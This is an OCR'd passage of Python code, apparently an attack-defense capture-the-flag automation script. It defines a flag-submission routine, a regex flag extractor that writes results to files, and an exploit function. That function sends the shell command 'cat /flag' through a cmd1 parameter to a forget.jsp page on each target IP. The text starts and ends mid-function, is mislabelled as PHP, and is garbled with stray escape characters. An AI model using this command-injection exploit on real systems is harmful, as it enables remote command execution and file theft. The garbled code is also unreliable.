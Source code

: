```php

        \# r = requests.post(url,headers=headers,data = json.dumps(data))

        res \= requests.post(submit\_url, data\=data,headers\=headers,timeout\=timout)

        print(res.text)

    except Exception as e:

        print(f"{flag} submit failed!")

​

​

def grep\_flag(id,text):

    \# 提取全flag

    matches \= re.findall(r'flag{.\*}', text, re.DOTALL | re.IGNORECASE)

    \# 提取花括号里面的

    \# matches = re.findall(r'flag{(.\*?)}',text,re.DOTALL | re.IGNORECASE)

    for m in matches:

        print(m)

        with open(f"file\_share/flag-{id}.txt","a",encoding\="utf-8") as file:

            file.writelines(m+"\\n")

        file.close()

    return matches\[0\]

​

​

def exp1(ip):

    url \= "http://" + ip +"/forget.jsp"

    params \= {

        "cmd1":"cat /flag"

    }

    data \= {

        "exp":"payload"

    }

    try:

        res \= requests.get(url \= url,params\=params,timeout\=timout)

        \# res = requests.post(url = url, data=data,timeout=timout)

```